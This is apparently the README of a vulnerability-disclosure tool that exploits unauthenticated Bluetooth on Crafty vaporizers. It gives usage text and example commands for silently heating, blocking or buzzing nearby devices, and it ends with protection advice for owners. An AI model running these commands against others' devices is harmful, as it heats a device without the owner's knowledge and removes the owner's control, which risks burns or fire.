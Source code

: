 # VapeOff
VapeOff is a tool wich uses the lack of authentication in the communication protocoll, to control vaporizers (at the moment only the Crafty) from Storz&Bickel. The issue was reported to Storz&Bickel on 15 August 2019. The 90 days deadline expired on 13.11.2019 without reaction, and therefore this script will be published without fix for the devices.

Currently it is possible to heat devices up (without led and vibration) and prevent shutdown by the owner, to prevent turning devices on and to let all craftys in proximity vibrate and blink.

## Usage
```
usage: vapeoff.py [-h] [-i INTERFACE] [-m MAC] [-a] [-o] [-p] [-s] [-f]
                  [-t TARGET_TEMP] [-l] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        specify interface (default: hci0)
  -m MAC, --mac MAC     specify target mac (default: None)
  -a, --all             attack all devices in area, overwrites '--mac'
                        (default: False)
  -o, --heat            start device(s) (default: False)
  -p, --perm            enable permanent bluetooth (default: False)
  -s, --silent          deactivate vibration and leds of devices (default:
                        False)
  -f, --vibrate         let devices vibrate (default: False)
  -t TARGET_TEMP, --target_temp TARGET_TEMP
                        sets the target temperature (default: None)
  -l, --list-devices    run discovery and print macs of supported devices in
                        the area. Can be combined with '--mac' and '--all'
                        (default: False)
  -v, --verbose
```

## Examples

Turning all Crafty's (with bluetooth enabled) on in proximity and activates permament bluetooth.
```
python3 vapeoff.py -o -a --perm
```
Turning on only a specified device without notification of the owener
```
python3 vapeoff.py -o -m [MAC] --silent
```

Preventing tuning on of all Crafty's in proximity
As soon as the device is turned on this script connects and stops the heating.
```
python3 vapeoff.py -a
```

Letting all Crafty's (with bluetooth enabled) in proximity vibrate and blink
```
python3 vapeoff.py -a -f
```

## Workarounds

a) Sometimes disconnecting fails. In this case the connection must be disconnected manually. This is possible via Bluetooth Manager or resetting the Bluetooth interface. 

## What can i do to protect my Crafty?
1. Turn off permament bluetooth.
2. Connect your smartphone to your Crafty as soons as you turn it on.
3. If you realize that your device is heating up without your interaction, leave the area as a bluetooth connection is needed. Make sure permanent bluetooth was not activated.

## Why do you release this tool?
Because wether i release it or not the attack is possible. I hope that the release puts pressure on Storz & Bickel to fix this issue.

## Dependencies
* python3
* bitstring
* gatt>=0.2.7
